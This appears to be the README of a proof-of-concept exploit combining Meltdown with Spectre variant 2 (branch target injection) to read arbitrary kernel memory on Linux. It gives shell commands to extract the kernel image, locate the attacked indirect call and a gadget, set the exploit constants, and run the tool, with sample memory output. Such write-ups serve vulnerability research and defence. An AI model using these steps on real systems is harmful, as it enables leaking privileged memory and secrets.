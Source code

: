 # A Meltdown + Spectre PoC that allows reading un-cached memory

This PoC combines Meltdown together with a Branch Target Injection (BTI, Spectre variant 2) in order to read any virtual memory address on the system (cached or un-cached).

The BTI is done into the running kernel, causing it to speculatively access any memory address that we'd like. This speculative access places the targeted data into the L1 cache. At that point it's easy to read the memory out using Meltdown, as described in the Meltdown whitepaper. 

# Limitations

1. This is for Linux only. Porting the same concept to other OSs should be trivial.
2. There is no regard here for KASLR. However, other tools exist (as part of other Meltdown PoCs) that do this.
3. You need to get a copy of the running kernel image and symbols.

This was tested on the following CPUs:

1. Intel Core i7-6500U
2. Intel Core i7-5500U

# Porting

This PoC has to be ported to your running kernel.
We need to obtain the kernel image. On my Ubuntu running a mainline kernel, I did something like:

    $ dpkg -S /boot/vmlinuz-`uname -r`
    linux-image-4.12.14-041214-generic: /boot/vmlinuz-4.12.14-041214-generic

Then obtain the deb file from http://kernel.ubuntu.com/~kernel-ppa/mainline/. Extract it uisng dpkg-deb.
Alternatively, let's cheat and just get it as root from:

    $ sudo cp /boot/System.map-`uname -r` .
    $ sudo cp /boot/vmlinuz-`uname -r` .
    $ sudo chmod ugo+x vmlinuz-* System.map-*
    
Extract vmlinuz:

    $ wget -O extract-vmlinux https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux && chmod +x extract-vmlinux
    $ ./extract-vmlinux vmlinuz-* > vmlinux
    
Now find the symbol of the function that contains the indirect call we're going to attack with BTI:

    $ grep security_file_fcntl System.map-*
    ffffffff8138fcb0 T security_file_fcntl
    
Using this address, find the target callq in the function.

    $ objdump -d vmlinux | grep 'ffffffff8138fcb0:' -A 30 | grep 'callq.*\*' -A 1 | head -n2
    ffffffff8138fcf0:       ff 53 18                callq  *0x18(%rbx)
    ffffffff8138fcf3:       85 c0                   test   %eax,%eax
    
Additionally, find a gadget close by that derefs %rdx

    $ objdump -d vmlinux | grep 'ffffffff8138fcb0:' -A 20000 | grep 'mov[^,]*(%rdx' | head -n1
    ffffffff81392126:       48 8b 02                mov    (%rdx),%rax

These are the addresses needed to port the exploit. In this case, set the value CALL_ADDR_NEXT_INST to 0xffffffff8138fcf3 (this is the addr of the instruction *after* the call), and GADGET_ADDR to 0xffffffff81392126. These constants are in doit.c

At last, we'll cheat (due to no KASLR bypass) to retrieve the ASLR base

    $ sudo cat /proc/kallsyms | grep _stext
    ffffffff92a00000 T _stext
    
# Usage
    ./build.sh  
    tasket 0x1 ./doit <aslr_base> <virt_addr> <len>
  
    $ taskset 0x1 ./doit 0xffffffff92a00000 0xffffffff92c47cc0 0x20
    0f 1f 44 00 00 55 48 89 e5 41 56 41 55 41 54 53
    49 89 f5 49 89 d6 48 83 ec 18 65 48 8b 04 25 28

# How this works
Fist of all, this PoC implements the basic version of Meltdown, from the Meltdown whitepaper. However this attack is limited to only reading data from the L1D cache (as explained by Google Project Zero). To overcome this limitation, this PoC uses an additional Spectre BTI attack against the kernel.

The attacked indirect call in the kernel is located in security/security.c:

    int security_file_fcntl(struct file *file, unsigned int cmd, unsigned long arg)
    {
    	return security_ops->file_fcntl(file, cmd, arg);
    }
    
Here, if security_ops points to un-cached memory, the indirect call will be guessed by the CPU (as explained in the Spectre writeups). It's easy to reach this code via the fcntl() syscall.

The attacker controls the *arg* param in this call via the syscall API. The *arg* param will be passed on the %rdx register (per the x86_64 ABI). If *arg* is set to be a pointer, and the BTI causes the indirect call to speculatively execute a gadget that derefs %rdx, the memory *arg* points to will then become cached.

After that the regular Meltdown attack can read the memory.
